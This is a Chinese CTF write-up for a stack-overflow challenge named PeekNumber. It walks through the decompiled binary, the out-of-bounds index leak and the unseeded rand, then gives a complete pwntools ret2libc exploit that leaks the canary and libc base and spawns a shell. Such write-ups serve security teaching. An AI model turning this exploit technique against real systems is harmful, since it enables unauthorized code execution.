

## PeekNumber
##### 罗承煜 523031910624

### 题目分析
由标题可知，本题的情景是猜数字游戏，把./pwn2放进IDA中，反编译得到
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-64h] BYREF
  int v5; // [rsp+10h] [rbp-60h] BYREF
  int v6; // [rsp+14h] [rbp-5Ch]
  int i; // [rsp+18h] [rbp-58h]
  int j; // [rsp+1Ch] [rbp-54h]
  _DWORD v9[12]; // [rsp+20h] [rbp-50h]
  char buf[24]; // [rsp+50h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+68h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  v6 = 0;
  v5 = 0;
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  for ( i = 0; i <= 9; ++i )
  {
    v9[i] = rand() % 0x10000;
    v6 += v9[i];
  }
  puts("I can give you the hint of the secret number.");
  puts("You have 9 chances to peek:");
  for ( j = 0; j <= 8; ++j )
  {
    __isoc99_scanf("%d", &v4);
    printf("The secret number is %d\n", v9[v4]);
  }
  puts("Do you know what's the sum of the secret number?");
  __isoc99_scanf("%d", &v5);
  if ( v6 == v5 )
  {
    puts("You are right!");
    puts("Please tell me your name:");
    read(0, buf, 0x100u);
    printf("Hello %s, you are the winner!\n", buf);
  }
  else
  {
    puts("Sorry, you are wrong.");
  }
  return 0;
}
```
##### 重要变量：
    v9：一个数组，用rand函数随机生成了十个数填充进去
    v6：存放v9中十个数的和

##### 漏洞发现：
    rand函数没有设置随机数种子，意味着使用默认随机数种子（1），也即每次运行的结果都是一样的，10个数字的和是```265349```
    在输入下标获取9个数字信息的时候，没有对下标进行越界检查，可以在此进行溢出获得对应地址的信息
    猜数字成功后，```read(0, buf, 0x100u)```函数存在溢出，可以在此调用system('/bin/sh')

##### 难点
本题源代码中并没有system函数和'/bin/sh'字符串，但可以用ret2libc，因为libc中有system函数和'/bin/sh'，所以只要知道了libc的基地址和相关信息的偏移地址就能成功调用system('/bin/sh')

### 解题步骤
首先想想怎么利用9次的查询机会获得更多信息，查看地址存放信息

rbp-5C:存放随机数的和（v6）
rbp-50:存放rands首地址（v9）
rbp+08:main函数返回地址，我们可以用libc.libc_start_main_return获取main函数在libc中的偏移量，相减即可得到libc基地址
rbp+18:存放main的真实地址
rbp+28：存放环境变量的真实地址，环境变量在栈上，所以可以根据与rbp的相对地址计算rbp的真实地址
代码如下：
```
sum_rbp =-0x5C
canary_rbp =-0x8
main_rbp = 0x18
envp_rbp = 0x28
env_rbp = 0x7FFFFFFFD758- 0x7FFFFFFFD640 # 0x118
main_ret = 0x29D90

sum: int = u32(leak(sum_rbp, 4)) # 265349
log.success(f'sum: {sum}')

canary: bytes = leak(canary_rbp, 8)
log.success(f'canary: {hex(u64(canary))}')

main: int = u64(leak(main_rbp, 8))
log.success(f'main: {hex(main)}')
exe.address += main - exe.sym['main']

rbp: int = u64(leak(envp_rbp, 8))- env_rbp
log.success(f'rbp: {hex(rbp)}')

libc_base: int = u64(leak(0x8, 8))- main_ret
log.success(f'libc base: {hex(libc_base)}')
libc.address += libc_base
```

可以用elf模块设置elf基地址：
```
def r(canary: bytes, rbp: int)-> bytes:
    r = ROP(libc, rbp + buf_rbp)
    r.raw(buf * b'A') # buf
    r.raw(canary) # canary
    r.raw(1) # old rbp
    r.raw(r.ret.address) # return address
    r.system(b'/bin/sh')
    # print(r.dump())
    return r.chain().ljust(read_buf)
```
### 完整代码如下：
先运行
```
from pwn import *

exe_path = './pwn2'
suffix = '_remotelibc'
ELF.patch_custom_libraries(exe_path, '.', True, suffix）
```

再运行
```
from pwn import *

context.arch = 'amd64'

exe = ELF('./pwn2_remotelibc')
libc = exe.libc

step = 4
count = 9
rand_rbp =-0x50

sum_rbp =-0x5C
canary_rbp =-0x8
main_rbp = 0x18
envp_rbp = 0x28
env_rbp = 0x7FFFFFFFD758- 0x7FFFFFFFD640 # 0x118
main_ret = 0x29D90 # libc.libc_start_main_return

buf_rbp =-0x20
buf = 24
read_buf = 256

# rop
def r(canary: bytes, rbp: int)-> bytes:
    r = ROP(libc, rbp + buf_rbp)
    r.raw(buf * b'A') # buf
    r.raw(canary) # canary
    r.raw(1) # old rbp
    r.raw(r.ret.address) # return address
    r.system(b'/bin/sh')
    # print(r.dump())
    return r.chain().ljust(read_buf)

io = process(exe.path)
# gdb.attach(io, 'b *main+281')
# io = remote('202.120.7.16', 29746)

 # 泄露rbp[rbp_offset:][:size]处的内存
def leak(rbp_offset: int, size: int)-> bytes:
    global count
    start = (rbp_offset - rand_rbp) // step
    stop = (rbp_offset - rand_rbp + size - 1) // step + 1
    count -= stop - start
    data = bytearray()
    for i in range(start, stop):
        io.sendline(str(i).encode())
        io.recvuntil(b'The secret number is ')
        rec = io.recvline(False)
        data.extend(int(rec).to_bytes(step, 'little', signed=True))
    return bytes(data[rbp_offset % step :][:size])

sum: int = u32(leak(sum_rbp, 4)) # 265349
log.success(f'sum: {sum}')

canary: bytes = leak(canary_rbp, 8)
log.success(f'canary: {hex(u64(canary))}')

main: int = u64(leak(main_rbp, 8))
log.success(f'main: {hex(main)}')
exe.address += main - exe.sym['main']

rbp: int = u64(leak(envp_rbp, 8))- env_rbp
log.success(f'rbp: {hex(rbp)}')

libc_base: int = u64(leak(0x8, 8))- main_ret
log.success(f'libc base: {hex(libc_base)}')
libc.address += libc_base

while count > 0:
    leak(rand_rbp, 4)

io.sendlineafter(b"Do you know what's the sum of the secret number?\n",
str(sum).encode())

io.sendlineafter(b'Please tell me your name:', r(canary, rbp))

io.interactive()
```